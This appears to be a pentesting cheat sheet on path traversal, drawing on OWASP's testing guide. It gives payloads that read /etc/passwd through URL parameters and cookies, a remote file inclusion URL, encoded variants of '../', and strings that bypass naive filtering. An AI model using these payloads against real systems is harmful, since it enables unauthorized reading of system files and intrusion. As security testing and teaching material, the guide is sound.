 # Path Traversal

## Step 1 Identify parameters

Identify:

* any request parameters that could be used for file-related operations

`http://example.com/getUserProfile.jsp?item=ikki.html`

* any unusual file extensions

`http://example.com/main.cgi?home=index.htm`

* any interesting variable names

`http://example.com/index.php?file=content`

* cookie used by web application for the dynamic generation of pages 

`Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`

## Step 2 Insert malicious string

For example, for Linux/UNIX, we can insert `../../../../etc/passwd`

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

Cookie example: `Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

Includes files and scripts from external website \(remote file inclusion\):

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

To show the source code of a CGI component `http://example.com/main.cgi?home=main.cgi`

## Encoding

URL encode \(once\) Linux

> %2e%2e%2f = ../ %2e%2e/ = ../ ..%2f = ../

Windows:

> %2e%2e%5c = .. %2e%2e = .. ..%5c = ..\

URL encode \(double\) Windows

> %252e%252e%255c = .. ..%255c = ..\

Unicode/UTF-8 Encoding

> ..%c0%af = ../ ..%c1%9c = ..\

## OS/application consideration

Different OS/APIs have different behavior in the parsing of file paths

Source: [https://www.owasp.org/index.php/Testing\_Directory\_traversal/file\_include\_\(OTG-AUTHZ-001\)](https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_%28OTG-AUTHZ-001%29)

## Bypass input validation

Below code will replace ../ from the request

```PHP
filename = Request.QueryString(“file”); 
Replace(filename, “/”,”\”); 
Replace(filename, “..\”,””);
```

Below strings can be used to test for the flaws
```text
file=....//....//boot.ini 
file=....\\....\\boot.ini 
file= ..\..\boot.ini 
```
